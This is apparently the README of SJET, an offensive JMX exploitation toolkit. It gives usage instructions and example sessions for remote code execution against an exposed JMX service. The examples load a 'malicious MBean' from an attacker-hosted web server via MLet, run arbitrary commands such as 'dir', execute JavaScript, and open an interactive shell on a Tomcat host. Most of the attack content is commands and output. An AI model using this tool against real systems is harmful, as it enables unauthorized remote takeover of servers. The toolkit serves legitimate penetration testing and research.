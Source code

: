# SJET by siberas

A JMX exploitation toolkit.

## Prerequisites


* [Jython 2.7](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target.
	* *payload_url* - full URL to load the payload
	* *payload_port* - port to load the payload
* **command** -  runs the command *CMD* in the targetHost
	* *CMD* - the command to run
* **javascript** - runs a javascript file *FILENAME* in the targetHost
	* *FILENAME* - the javascript to be run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())

Explain how to run the automated tests for this system

## Example


### Installing the payload in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 install http://192.168.56.1 8888
[+] sjet was brought to you by siberas :)
[+] Starting webserver at port 8888
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.56.1:8888
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET / HTTP/1.1" 200 -
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded Siberas:name=payload,id=1
Patricios-MacBook-Pro:sjet preller$
```

### Running the command 'dir' in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 command "dir"
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: dir
 Volume in drive C has no label.
 Volume Serial Number is E0CE-337D

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0

08/11/2017  01:34 AM    <DIR>          .
08/11/2017  01:34 AM    <DIR>          ..
08/11/2017  01:34 AM                 3 ASDASD.txt
08/10/2017  07:08 AM    <DIR>          bin
08/10/2017  07:08 AM    <DIR>          conf
08/10/2017  07:08 AM    <DIR>          lib
08/02/2017  01:29 PM            58,153 LICENSE
08/11/2017  01:24 AM    <DIR>          logs
08/02/2017  01:29 PM             1,859 NOTICE
08/02/2017  01:29 PM             6,881 RELEASE-NOTES
08/11/2017  02:16 AM    <DIR>          temp
08/02/2017  01:29 PM            21,630 tomcat.ico
08/02/2017  01:29 PM            73,690 Uninstall.exe
08/10/2017  07:08 AM    <DIR>          webapps
08/10/2017  07:08 AM    <DIR>          work
08/11/2017  02:30 AM                17 _____SURELY_A_SAFE_FILE_____.exe
08/11/2017  02:29 AM                17 _____AND_DONT_CALL_ME_SHIRLEY_____.exe
               8 File(s)        162,253 bytes
               9 Dir(s)  124,198,735,872 bytes free

[+] Done
Patricios-MacBook-Pro:sjet preller$
```

### Running the file poc.js in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 javascript "poc.js"
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
None

Patricios-MacBook-Pro:sjet preller$
```
### Running ping in shell mode in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 shell
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  9
[+] Use command 'exit_shell' to exit the shell
>>> ping 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping 127.0.0.1

Pinging 127.0.0.1 with 32 bytes of data:
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128

Ping statistics for 127.0.0.1:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms


>>>
>>>
[4]+  Stopped                 Jython sjet.py 192.168.56.101 8008 shell
Patricios-MacBook-Pro:sjet preller$
```

## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://github.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
